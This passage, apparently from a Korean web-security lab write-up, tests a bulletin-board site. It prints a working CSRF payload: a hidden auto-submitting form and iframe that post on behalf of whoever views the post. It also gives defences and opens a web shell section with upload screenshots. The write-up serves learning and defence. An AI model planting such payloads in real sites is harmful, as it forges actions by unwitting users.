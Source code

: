 ```php
<form name="write_form" action="write_ok.php" method="post" enctype="multipart/form-data" target="A">
<input type="hidden" name="title" value="CSRF 자동 글"> 
<input type="hidden" name="content" value="test">
<input type="hidden" name="lockpost" value="1" >
<input type="file" name="imgFile" style="display:none;"> 
</form>
<iframe name="A" style="display:none;"></iframe> 
<script>document.write_form.submit();</script>
```
<figcaption>CSRF 공격 코드</figcaption>

정상적인 게시글을 작성 후 <sup id="fiddler">[[5]](#user-ref5)</sup>`fiddler`로 글쓰기가 어떠한 방식으로 작성이 되었는지 <br><sup id="sniffing">[[6]](#user-ref6)</sup>`스니핑` 한 후 탈취한 `파라미터와 변수`를 위에 CSRF 공격 코드처럼 양식을 맞추어 작성 후 게시글을 등록합니다. 그다음 다른 계정으로 작성한 게시글(CSRF를 코드가 주입된 게시글)를 읽으면 사이트 간 `요청 위조`를 하였기 때문에 내가 작성한 글이 아님에도 해커에 의해서 `의도치 않은` 글을 작성하게 됩니다. (* input type="file"은 hidden이 안먹히므로 style에 따로 display:none;를 이용하여 스타일링 해주었습니다.)

#### 대응 방안
현재 공격이 가능한 부분은 XSS와 동일하게 게시판에서 글을 쓸때, 댓글을 쓸때 CSRF공격이 가능합니다. <br> CSRF 공격이 가능함에 따라 `해커`에 의해서 `의도치 않은 글`을 `작성`하게 되었습니다.
<br> 이러한 상황을 방어하기 위해서는 XSS와 동일하게 `유효성 검사` <script태그, 태그 문자(<,>,",')를 `이스케이핑` 합니다.
"태그문자 : <(&lt), >(&gt), "(&quot), '(&apos), &(&amp) 등등" 
<br>추가적으로 백엔드 부분에서 `Request`의 `Referer`를 확인하여 Domain(192.168.35.237)가 일치하는지 검증합니다.

<br>

<hr>
## 4-4 <sup id="webshell">[[7]](#user-ref7)</sup> `Web Shell`

1. 웹쉘은 말 그대로 웹사이트를 통해 `쉘(shell)을 여는 공격` 입니다.
2. 원격에서 웹서버에 `명령을 수행`할 수 있도록 작성한 웹 스크립트 (ASP, JSP, PHP, CGI 파일 등) 형태를 가짐
3. 웹 서버의 다양한 취약점 (`서버 취약점, 웹 어플리케이션 취약점`) 등을 타깃으로 공격하여 웹 서버에 웹쉘을 업로드한 후<br>일반적인 웹 브라우저 (80 Port)를 통하여 업로드한 웹쉘을 실행하여 침투한 서버상의 `정보 유출 및 변조, 악성코드 유포` 등의 불법 행위를 행하는 형태가 많음

이번에도 `게시판`을 통해 `Web Shell` 공격이 가능한지 확인해보겠습니다.

<figure>
<img src="https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2FbWJyh1%2Fbtrd22XMdp5%2FWy6ByH8wcJu8usZFOuTv51%2Fimg.png
" alt="Weather API Web Sites - Main">
<figcaption>Fig 26. 파일 업로드 확인 (1/3)</figcaption>
</figure>

<figure>
<img src="https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2FdmXSiq%2Fbtrd1zvgbKa%2Fu7s5Y4W1tBbNHSgTGwW3MK%2Fimg.png" alt="Weather API Web Sites - Main">
<figcaption>Fig 27. 파일 업로드 확인 (2/3)</figcaption>
</figure>

<figure>
<img src="https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2FbyiLcF%2FbtrdZWdTA6i%2F3yOPDs2Uh73O2gMcDniAjK%2Fimg.png" alt="Weather API Web Sites - Main">
<figcaption>Fig 28. 파일 업로드 확인 (3/3)</figcaption>
</figure>
